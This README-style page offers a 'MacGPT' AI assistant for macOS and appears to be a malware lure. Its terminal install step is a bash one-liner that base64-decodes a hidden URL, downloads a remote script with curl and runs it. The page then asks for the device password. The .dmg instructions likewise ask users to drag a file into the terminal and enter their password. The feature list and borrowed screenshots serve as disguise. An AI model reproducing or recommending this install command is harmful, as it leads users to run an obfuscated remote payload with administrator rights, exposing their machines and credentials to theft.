 # MacGPT for Mac Download

![MacGPT Screenshot 1](https://cdn.mos.cms.futurecdn.net/KskGfTjuMC2mkLqxy8TbrU.png)

---

## 📥 Download MacGPT for macOS

[![⬇️ Download MacGPT](https://img.shields.io/badge/Download-MacGPT-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/MacGPT)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below. 
```bash 
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is MacGPT for Mac?

MacGPT is an intuitive and powerful AI assistant for macOS, leveraging the power of GPT-based technology. It provides seamless access to AI-driven conversational models, making it perfect for anyone looking for intelligent assistance right on their Mac.

With MacGPT, you can have real-time conversations, access detailed answers, and even get help with complex tasks such as writing, coding, summarizing documents, and brainstorming ideas. Optimized for macOS, it integrates well with your system and offers a fluid, easy-to-use interface.

Whether you're using it for productivity, creativity, or just as a fun tool, MacGPT brings the power of GPT to your fingertips, enhancing your Mac experience.

---

![MacGPT Screenshot 2](https://images.macrumors.com/t/dxv-fL4alp8zuwzDwJ6j6haQnqM=/3040x/article-new/2023/03/macgpt.jpg)

---

## ⚙️ Key Features

- 🧠 AI-Powered Assistance – Powered by GPT models for seamless, real-time conversation  
- 📝 Task Automation – Use MacGPT for writing, summarizing, and generating ideas  
- 💻 Mac Optimized – Native integration with macOS for a smooth experience  
- 📡 Fast Responses – Instant and intelligent answers to a wide range of queries  
- 🎨 Creative Support – Assist with brainstorming, design ideas, and content creation  
- 🖥️ Easy-to-Use Interface – Simple, intuitive, and well-suited for macOS users  
- 📱 Seamless Sync – Sync your data and notes across multiple devices  
- 🔒 Data Security – Privacy-focused with secure communication  

---

## ✅ Suitable For

- Students & Writers  
- Developers & Coders  
- Content Creators  
- Research Professionals  
- Anyone looking for an intelligent assistant  

---

## 📦 System Requirements

- macOS 10.12 (Sierra) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

macgpt, macgpt free, macgpt download, macgpt for mac, macgpt app, gpt mac, macgpt assistant, macgpt ai, macgpt download free, macgpt download mac, macgpt mac app, macgpt free download, macgpt for writing, macgpt macbook, macgpt productivity
